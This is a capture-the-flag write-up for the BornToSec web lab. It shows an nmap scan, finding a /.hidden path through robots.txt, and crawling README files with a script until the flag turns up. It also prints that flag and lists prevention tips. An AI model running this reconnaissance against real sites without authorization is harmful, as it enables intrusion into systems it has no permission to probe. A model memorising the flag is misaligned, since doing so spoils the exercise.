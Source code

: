 # Web crawling
- a process of automatically browsing and indexing content from websites
- a robots.txt file tells crawlers which URLs they can access on the site - this is mainly used to avoid overloading the site with requests
- https://www.zenrows.com/blog/web-crawler-python#prerequisites

<b>keywords</b>: guess (hidden file)<br>
<b>attacked site</b>: http://borntosec.42/.hidden/

## Exploit
Upon running <code>nmap</code> with the IP address of the server, we discover a <code>robots.txt</code> file that disallows two entries:
``` shell
└─$ nmap -sVC borntosec.42 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-07 19:27 EDT
Nmap scan report for borntosec.42 (192.168.56.106)
Host is up (0.00070s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.4.6 (Ubuntu)
|_http-title: BornToSec - Web Section
| http-robots.txt: 2 disallowed entries 
|_/whatever /.hidden
|_http-server-header: nginx/1.4.6 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.62 seconds
```
When accessing <code>http://borntosec.42/.hidden</code>, we find the site contains many subsites, each with a <code>README</code> file. One of these files likely contains the flag. Instead of manually checking each file, we create a Python script to automate the crawling process:
``` shell
└─$ python3 crawler.py http://192.168.56.106/.hidden/ README flag

       / _ \
     \_\(_)/_/     Starting crawler at http://192.168.56.106/.hidden/
      _//o\\_      looking for file README containing keyword 'flag'
       /   \

Checking http://192.168.56.106/.hidden/whtccjokayshttvxycsvykxcfm/vsjtwjnsblouvdzmhzwwfiwimv/xhytouigdvshzvldngdskfmkpf/README
```
After some time, a match is found, and we receive the flag:
``` shell
     MATCH FOUND!

Contents of README at http://192.168.56.106/.hidden/whtccjokayshttvxycsvykxcfm/igeemtxnvexvxezqwntmzjltkt/lmpanswobhwcozdqixbowvbrhw/README: 
Hey, here is your flag : d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466
```
## Flag
d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466

## Exploit prevention
- configure the robots.txt file to specify which parts of the site should not be crawled by automated tools
- restrict access to sensitive directories and files
- limit the number of requests that can be made from a single IP address 
